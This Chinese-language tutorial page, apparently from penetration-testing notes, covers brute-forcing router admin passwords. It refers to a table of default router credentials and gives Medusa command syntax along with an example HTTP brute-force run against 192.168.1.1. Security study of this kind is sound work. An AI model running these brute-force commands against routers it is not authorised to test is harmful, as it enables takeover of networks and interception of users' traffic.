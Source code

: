 ## 路由器密码破解
- 路由器是一个网络的核心设备。一旦控制路由器，就很容易对连接该路由器的主机实施各种数据嗅探和欺骗攻击。大部分路由器都是使用用户名/密码的身份验证方式。而每
个路由器的管理界面都有初始用户名和密码。由于一些管理员用户的失误，可能会使用初始密码或者弱密码

#### 路由器初始密码
- 大部分路由器都有初始用户名和密码。为了方便用户实施路由器密码破解，下面将列出常见的路由器初始用户名和密码

![pics](../5.密码攻击/pics/9.png)

#### 使用Medusa工具
Medusa 是一款开源的暴力密码破解工具，可以在线破解多种密码，如FTP、HTTP、IMAP和MYSQL 等。其中，路由器的管理界面是基于HTTP协议的，所以用户可以使用Medusa工具实施密码破解。
```c
medusa -h [IP] -U [user file] -P [pass file] -M http -e ns
//以上语法中的选项及含义如下：
//- h：指定目标主机的地址
//- u：指定尝试破解的用户名
//- U：指定使用的用户名文件
//- p：指定尝试破解的密码
//- P：指定使用的密码文件
//- M：指定要破解的模块类型
//- e：尝试空密码

//暴力破解 TP-Linux 路由器的登录用户名和密码
root@daxueba:~# medusa -h 192.168.1.1 -u admin -P passords.txt -M http -e ns
```
